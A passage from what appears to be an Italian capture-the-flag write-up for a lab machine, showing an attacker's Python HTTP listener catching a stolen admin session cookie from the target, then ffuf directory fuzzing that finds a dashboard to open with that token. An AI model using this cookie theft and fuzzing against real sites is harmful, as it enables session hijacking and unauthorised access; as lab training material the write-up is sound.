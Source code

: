 ```shell
python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...

10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200
```

Abbiamo ottenuto l'admin token!

### Fuzzing

Non potendo fare altro con questo token, fuzziamo il sito.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://10.10.11.8:5000/FFUZ -ic -t 100
<...SNIP...>
________________________________________________
 :: Method : GET
 :: URL : http://10.10.11.8:5000/FFUZ
 :: Wordlist : FFUZ: /usr/share/wordlists/SecLists/Discovery/WebContent/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 100
 :: Matcher : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
[Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 197ms]
 * FFUZ:
[Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 322ms]
 * FFUZ: support
[Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 236ms]
 * FFUZ: dashboard
```

Abbiamo trovato la directory dashboard. Andiamoci utilizzando il token admin.

### dashboard

![Desktop View](/assets/img/headless/headless-dashboard.png)
